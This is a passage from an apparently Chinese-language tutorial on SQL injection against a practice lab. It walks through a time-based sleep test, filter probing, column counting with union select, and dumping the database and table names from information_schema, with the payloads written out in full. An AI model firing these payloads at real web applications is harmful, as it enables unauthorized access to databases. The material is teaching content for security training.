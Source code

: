 
<hr/>
 测试注入语句是否正常
?id=1'%26%26sleep(3)%26%26'1
转了3s
注入语句正常执行






> 
<h3> 3.3、第二步：分析过滤</h3>
方法一：
考虑一步一步将注入语句字符一个一个替换掉，直到不报错（浪费时间）
或者全部替换（如果报错，不知道哪里被过滤了）
<hr/>
方法二：
获取源码进行白盒审计（最优）
<hr/>方法三： 
 eg：输入?id=and or union select --+ updatexml # extractvalue（重要的都输进去）
看输入回显过滤语句的情况


貌似没啥过滤


---


> 
<h3>3.4、第三步：判断字段数/回显位</h3>
?id=1' union select 1,2,3'
回显正常

 ?id=1' union select 1,2,3,4'
报错

 说明字段数为3
<hr/>
判断回显位
?id=-1' union select 1,2,3'





> 
<h3>3.5、第四步：暴库</h3>
?id=1&amp;id=-1' union select 1,2,database() --+





> 
<h3>3.6、第五步：爆表名</h3>
?id=1&amp;id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
 <img alt="" height="847" src="https://img-blog.csdnimg.cn/9b40e574930b4b8a84554bf2fc44bc25.png" width="1200"/>
